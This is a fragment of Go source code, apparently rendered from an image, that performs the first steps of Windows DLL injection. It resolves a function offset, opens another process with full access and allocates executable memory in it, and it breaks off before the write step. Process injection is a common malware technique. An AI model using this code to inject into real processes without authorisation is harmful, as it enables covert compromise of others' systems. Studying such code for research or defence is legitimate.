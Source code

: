 ```go
		fmt.Println("Failed to load DLL:", err)
		return
	}

	fmt.Printf("DLL Handle: %#x\n", dllHandle)

	defer syscall.FreeLibrary(dllHandle)

	functionAddress, err := syscall.GetProcAddress(dllHandle, functionName)
	if err != nil {
		fmt.Println("Failed to get function address:", err)
		return
	}

	offset := uintptr(functionAddress) - uintptr(unsafe.Pointer(dllHandle))

	fmt.Printf("DLL Base Address: %#x\n", uintptr(unsafe.Pointer(dllHandle)))
	fmt.Printf("Function Address: %#x\n", functionAddress)
	fmt.Printf("Function Offset: %#x\n", offset)

	// open process
	ph, op2, err := openProcess.Call(
		PROCESS_ALL_ACCESS,
		FALSE,
		uintptr(pid),
	)

	if err != nil {
		fmt.Println("Results of openProcess:", err)
	}

	if ph == 0 {
		fmt.Println("Failed to open process")
		return
	}
	fmt.Printf("Process handle: %#x\n", ph)
	fmt.Println(op2)
	defer closeHandle.Call(ph)

	rb, va2, err := virtualAllocEx.Call(
		uintptr(ph),
		0,
		uintptr(uintptr(dllLength)*2),
		uintptr(MEM_RESERVE|MEM_COMMIT),
		uintptr(PAGE_EXECUTE_READWRITE),
	)
	if err != nil {
		fmt.Println("Results of virtualAllocEx:", err)
	}

	if rb == 0 {
		fmt.Println("Failed to allocate memory")
		return
	}
	fmt.Printf("rb: %#x\n", rb)
	fmt.Printf("va2: %#x\n", va2)
	defer virtualFreeEx.Call(
		rb,
		0,
		MEM_RELEASE,
	)

	// write dll to memory
```